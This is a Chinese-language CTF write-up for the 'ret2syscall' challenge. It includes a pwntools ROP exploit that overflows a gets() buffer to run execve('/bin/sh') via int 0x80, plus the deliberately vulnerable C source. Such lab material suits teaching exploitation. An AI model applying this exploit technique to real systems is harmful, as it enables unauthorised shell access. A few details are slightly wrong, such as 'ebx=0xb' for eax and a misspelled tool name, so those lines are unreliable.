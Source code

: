```yaml
---
layout:     post
title:      ret2syscall
subtitle:   解题思路
date:       2018-07-10
author:     Mao
header-img: img/home-bg-geek.jpg
catalog: true
tags:
    - PWN
    - 栈溢出
---
```




## 所需环境

环境要求

> ubuntu 16.04 64bit
>
> python 2.7



所需工具

> pwntools
>
> gdb-peda
>
> 32位 ida



[下载程序](https://maoshuu.oss-cn-beijing.aliyuncs.com/elf/ret2syscall)



## 分析过程

这里需要注意一点，ret2syscall是静态编译的

```
file ret2syscall

ret2syscall: ELF 32-bit LSB executable, Intel 80386, version 1 (GNU/Linux), statically linked
```



只开了NX堆栈不可执行保护

```
checksec ret2syscall
[*] '/home/hello/Desktop/test/ret2syscall/ret2syscall'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```





## 解题思路

思路

ida打开程序，发现没有system函数，因为是静态编译又不能调用libc中的函数，考虑一下int 0x80[系统调用](https://syscalls.kernelgrok.com)

```python
payload = flat(
    ['A' * 112, pop_eax_ret, 0xb, pop_edx_ecx_ebx_ret, 0, 0, binsh, int_0x80])
```

payload中，ebx=0xb对应系统调用表中的sys_execve，edx、ecx为0即可，ebx存/bin/sh的字符串地址

/bin/sh字符串地址

```
strings -a -tx ret2syscall | grep '/bin/sh' + 0x8048000

0x76408 + 0x8048000 = 0x80be408

```

int 0x80地址

```
ROPgadget --binary ret2syscall --only 'int'

或者

ROPgadge –binary ret2syscall –opcode cd80c3
```







exp.py

```python
#!/usr/bin/env python
from pwn import *

sh = process('./rop')

pop_eax_ret = 0x080bb196
pop_edx_ecx_ebx_ret = 0x0806eb90
int_0x80 = 0x08049421
binsh = 0x80be408
payload = flat(
    ['A' * 112, pop_eax_ret, 0xb, pop_edx_ecx_ebx_ret, 0, 0, binsh, int_0x80])
sh.sendline(payload)
sh.interactive()
```



ret2syscall.c

```c
#include <stdio.h>
#include <stdlib.h>

char *shell = "/bin/sh";

int main(void)
{
    setvbuf(stdout, 0LL, 2, 0LL);
    setvbuf(stdin, 0LL, 1, 0LL);

    char buf[100];

    printf("This time, no system() and NO SHELLCODE!!!\n");
    printf("What do you plan to do?\n");
    gets(buf);

    return 0;
}
```



## 总结

注意静态编译和动态编译的区别
